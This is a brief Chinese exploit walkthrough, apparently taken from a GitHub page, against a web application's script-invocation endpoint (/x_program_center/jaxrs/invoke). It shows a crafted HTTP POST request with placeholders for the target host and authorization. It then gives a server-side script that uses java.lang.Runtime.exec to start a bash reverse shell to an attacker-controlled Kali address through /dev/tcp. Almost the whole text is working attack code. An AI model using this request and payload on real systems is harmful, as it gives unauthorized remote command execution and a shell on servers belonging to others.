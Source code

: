 ```http
POST /x_program_center/jaxrs/invoke/abc/execute?v=6.3 HTTP/1.1
Host: [your target host]
Content-Length: 0
Accept: text/html,application/json,*/*
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
Authorization: [your authorization]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Content-Type: application/json; charset=UTF-8
Origin: http://[your target host]
Referer: http://[your target host]/x_desktop/index.html
Accept-Encoding: gzip, deflate
Cookie: 
Connection: close
```

此处由于cookie变更比较快直接在页面新建并运行：

```
var s = [3];
s[0] = "/bin/bash";
s[1] = "-c";
s[2] = "bash -i >& /dev/tcp/{kaliip}/{kaliport} 0>&1";
var p = java.lang.Runtime.getRuntime().exec(s);
var sc = new java.util.Scanner(p.getInputStream(),"GBK").useDelimiter("\\A");
var result = sc.hasNext() ? sc.next() : "";
sc.close();
```

![image-20230217124256072](2024-02-13/image-20230217124256072.png)
